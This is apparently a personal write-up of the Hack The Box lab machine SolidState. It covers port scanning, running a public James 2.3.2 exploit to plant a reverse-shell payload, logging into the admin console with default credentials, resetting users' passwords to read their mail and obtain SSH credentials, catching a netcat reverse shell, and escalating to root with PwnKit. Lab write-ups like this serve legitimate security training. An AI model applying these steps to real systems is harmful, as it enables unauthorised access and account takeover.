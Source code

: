 ![[Pasted image 20240720111116.png]]

**Ping** 
```
ping 10.10.10.51
```
![[Pasted image 20240623170746.png]]

Nmap default Scan
```
nmap 10.10.10.51 -oN dnmap
```
![[Pasted image 20240623170844.png]]

Nmap Script and Service Scan
```
nmap 10.10.10.51 -sV -sC -A -oN snmap
```
![[Pasted image 20240623175947.png]]

Nmap All Port Scan
```
nmap 10.10.10.51 -p- --open -T5 -oN anmap
```
![[Pasted image 20240623180106.png]]
We found one extra port

Service enumeration on new port
```
nmap 10.10.10.51 -sV -sC -p4555
```
![[Pasted image 20240623180314.png]]

On port 80
![[Pasted image 20240623180025.png]]



Will Search public Exploit for James server 2.3.2 version
![[Pasted image 20240623181637.png]]
We got some
Will you the exploit db's https://www.exploit-db.com/exploits/50347

I have saved the python script in a file named exp.py as always

Will run the exploit
```
python3 exp.py 10.10.10.51 10.10.14.6 4444
```
![[Pasted image 20240623181753.png]]

So now we have to wait for someone to login via ssh to trigger over payload

Or will try some way to get in
Will try with Administrator tool on port 4555
```
telnet 10.10.10.51 4555
```
![[Pasted image 20240623181913.png]]
have used default creds **root:root**

So we are admin now, Will explore the session
```
HELP
```
![[Pasted image 20240623182006.png]]

Will list the users
```
listusers
```
![[Pasted image 20240623182309.png]]

Will change password for any user of our choice, I'm going to change password for john
```
setpassword john Password1!
```
![[Pasted image 20240623183525.png]]

Will try the new password from pop3
```
telnet 10.10.10.51 110
USER john
PASS Password1!
```
![[Pasted image 20240623183339.png]]
Great we changed password of john successfully....!

John as no emails, so will try to change passwords for other user and look for mails.

Eventually Mindy has mail
```
LIST
```
![[Pasted image 20240623200330.png]]

Will read the content
```
RETR 1
RETR 2
```
![[Pasted image 20240623200448.png]]

We got SSH creds on 2nd email
![[Pasted image 20240623200523.png]]
**mindy:P@55W0rd1!2@**

Will ssh now
```
ssh mindy@10.10.10.51
```
![[Pasted image 20240623201958.png]]
Now will check on our reverse shell

```
rlwrap nc -nvlp 4444
```
![[Pasted image 20240623202048.png]]
Nice....1

**user.txt**
![[Pasted image 20240623202205.png]]

Now will jump to privilege escalation......!


After a long Enumeration there is now way around to get escalate my Privileges

But there is one, PwnKit it is....!

I can see pkexec has SUID , So I have check Pkexec version and it is vulnerable one 
```
find / -perm -u=s -type f 2>/dev/null
```
```
pkexec --version
```
![[Pasted image 20240623205803.png]]

It is 32bit system, so I have transferred Pwnkit32 to the target machine and ran it
```
chmod +x Pwnkit32
./Pwnkit32
```
![[Pasted image 20240623210032.png]]
wE aR3 R0ot....!

**Root.txt**
![[Pasted image 20240623210149.png]]





Done with Solidstate......:)
